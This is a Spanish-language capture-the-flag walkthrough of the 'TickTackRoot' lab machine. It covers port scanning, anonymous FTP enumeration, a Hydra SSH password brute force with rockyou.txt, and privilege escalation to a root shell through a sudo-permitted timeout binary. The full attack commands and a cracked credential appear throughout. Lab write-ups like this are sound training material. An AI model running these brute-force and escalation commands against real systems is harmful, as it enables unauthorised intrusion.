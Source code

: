 # 🏁  Resolución del CTF "TickTackRoot" | TheHackersLabs
🔍 1. Escaneo de puertos
Se ejecutó un escaneo agresivo con Nmap:

bash
Copiar
Editar
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.20.10.6 -oN escaneo.txt
Puertos abiertos:

21/tcp → FTP (vsftpd 3.0.5, permite acceso anónimo)

22/tcp → SSH

80/tcp → Apache httpd 2.4.58 (Ubuntu)

📂 2. Enumeración del servicio FTP
Se permitió acceso anónimo, y al conectarse se mostró el mensaje:

Copiar
Editar
220 Bienvenido Robin
Este banner fue clave para orientar la fuerza bruta posterior.

Navegando por el FTP:

bash
Copiar
Editar
ftp 172.20.10.6
Se accedió al directorio /login donde se descargó login.txt:

bash
Copiar
Editar
get login.txt
Contenido del fichero:

nginx
Copiar
Editar
rafael
monica
🔐 3. Ataque de fuerza bruta con Hydra
Aunque inicialmente se probó con rafael y monica, se descubrió (al revisar el banner) que el nombre Robin era un posible usuario válido.

Ataque final exitoso:

bash
Copiar
Editar
hydra -l robin -P /usr/share/wordlists/rockyou.txt ssh://172.20.10.6 -f
Resultado:

pgsql
Copiar
Editar
login: robin  password: babyblue
💻 4. Acceso SSH como usuario Robin
bash
Copiar
Editar
ssh robin@172.20.10.6
Credenciales válidas, acceso exitoso al sistema:

css
Copiar
Editar
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)
🧨 5. Escalada de privilegios
Ejecutando:

bash
Copiar
Editar
sudo -l
Se encontró:

bash
Copiar
Editar
(ALL) NOPASSWD: /usr/bin/timeout_suid
Buscando en GTFOBins se identificó que timeout permite escalada:

bash
Copiar
Editar
sudo timeout_suid --foreground 7d /bin/sh
Esto nos da una shell como root 🏆

🎯 Conclusión
✅ Acceso inicial por FTP anónimo

✅ Reconocimiento de nombres de usuarios en login.txt

✅ Banner nos revela el usuario Robin

✅ Fuerza bruta exitosa con babyblue

✅ Escalada con binario timeout_suid
